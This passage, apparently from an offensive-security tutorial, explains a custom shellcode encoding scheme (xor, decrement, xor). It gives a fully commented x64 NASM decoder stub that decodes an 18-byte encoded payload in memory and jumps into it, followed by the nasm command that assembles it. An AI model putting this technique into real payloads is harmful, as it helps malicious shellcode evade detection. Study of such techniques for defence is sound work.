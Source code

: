 1. xor with 0x11
2. decrement by 0x1 (because we incremented when encoding, we need to decrement now)
3. xor with 0x55

A fully commented NASM `decoder.asm` is here:

{% code title="decoder.asm" %}
```cpp
global _start

section .text
    _start:
        jmp short shellcode

    decoder:
        pop rax                 ; store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

    setup:
        xor rcx, rcx            ; reset rcx to 0, will use this as a loop counter
        mov rdx, 0x12           ; shellcode size is 18 bytes

    decoderStub:
        cmp rcx, rdx            ; check if we've iterated and decoded all the encoded bytes
        je encodedShellcode     ; jump to the encodedShellcode, which actually now contains the decoded shellcode
        
        ; encodedShellcode bytes are being decoded here per our decoding scheme
        xor byte [rax], 0x11    ; 1. xor byte with 0x11
        dec byte [rax]          ; 2. decremenet byte by 1
        xor byte [rax], 0x55    ; 3. xor byte with 0x55
        
        inc rax                 ; point rax to the next encoded byte in encodedShellcode
        inc rcx                 ; increase loop counter
        jmp short decoderStub   ; repeat decoding procedure
            
    shellcode:
        call decoder            ; jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
        encodedShellcode: db 0x2a,0x39,0x2c,0x22,0x2c,0x2d,0x24,0x2b,0x67,0x36,0x2f,0x20,0x2b,0x2b,0x26,0x2a,0x23,0x20
```
{% endcode %}

```
Note that line 12 contains the shellcode size - `0x12` - the value that was printed out by our `encoder.ps1`
```

### Assembling the Decoder

Let's assemble our `decoder.asm` with nasm:

```
nasm -f win64 .\decoder.asm -o .\decoder
```
